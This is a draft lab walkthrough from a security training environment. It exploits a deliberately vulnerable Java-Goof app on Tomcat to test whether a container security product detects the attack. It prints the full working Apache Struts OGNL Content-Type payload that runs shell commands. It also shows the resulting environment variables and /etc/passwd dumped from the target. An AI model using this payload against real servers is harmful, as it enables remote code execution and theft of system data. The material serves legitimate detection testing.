

# Scenario: Detect Apache Struts RCE Vulnerability Exploitation

***DRAFT***

## Prerequisites

- Playground One EKS Cluster
- Vision One Container Security
- Playground One Scenarios
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o scenarios
```

Example output with ECS EC2:

```sh
loadbalancer_dns_health_check = "k8s-goat-healthch-e9104c52db-803985454.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_hunger_check = "k8s-goat-hungerch-0816ee11b2-1006982801.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_java_goof = "k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_openssl3 = "k8s-victims-webappin-8cd6b2fc5e-1459691118.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_system_monitor = "k8s-goat-systemmo-09a16052b6-565756108.eu-central-1.elb.amazonaws.com"
```

You want the variable `loadbalancer_dns_java_goof`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 3.120.84.56:80...
* Connected to k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com (3.120.84.56) port 80 (#0)
> GET /todolist/ HTTP/1.1
> Host: k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
WEB_APP_SERVICE_SERVICE_PORT=80
KUBERNETES_SERVICE_PORT_HTTPS=443
TREND_AP_LOG_FILE=STDERR
JAVA_GOOF_SERVICE_SERVICE_PORT=8080
KUBERNETES_SERVICE_PORT=443
WEB_APP_SERVICE_PORT_80_TCP_ADDR=172.20.245.34
MAVEN_CONFIG=/root/.m2
MAVEN_PROJECTBASEDIR=/usr/src/goof
HOSTNAME=java-goof-6c95b8cd5f-qn49h
MAVEN_CMD_LINE_ARGS=/root/.m2 tomcat7:run
JAVA_GOOF_SERVICE_PORT_8080_TCP_PORT=8080
...
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com left intact
```

Vision One Observed Attack Techniques:


